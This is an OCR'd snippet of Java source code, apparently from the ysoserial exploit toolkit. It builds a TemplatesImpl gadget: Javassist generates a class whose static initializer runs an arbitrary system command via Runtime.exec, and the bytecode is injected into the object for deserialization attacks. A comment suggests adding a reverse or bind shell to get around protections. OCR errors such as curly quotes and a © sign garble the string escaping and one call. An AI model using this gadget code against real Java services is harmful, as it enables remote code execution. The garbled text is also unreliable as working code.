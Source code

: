 ```

final T templates = tplClass.newInstance();

final byte[] classBytes;

if (c == null) {

// use template gadget class

ClassPool pool = ClassPool.getDefault();

pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));

pool.insertClassPath(new ClassClassPath(abstTranslet));

final CtClass clazz = pool.get(StubTransletPayload.class.getName());

// run command in static initializer

// TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections

String cmd = “java.lang.Runtime.getRuntime().exec(”" +

command.replaceAll("\\", “\\\\”).replaceAll(""", “\”") +

“”);";

clazz.makeClassInitializer().insertAfter(cmd);

// sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)

clazz.setName(“ysoserial.Pwner” + System.nanoTime());

CtClass superC = pool.get(abstTranslet.getName());

clazz.setSuperclass(superC);

classBytes = clazz.toBytecode();

} else {

classBytes = ClassFiles.classAsBytes©;

}

```
// inject class bytes into instance
Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
    classBytes, ClassFiles.classAsBytes(Foo.class)
});
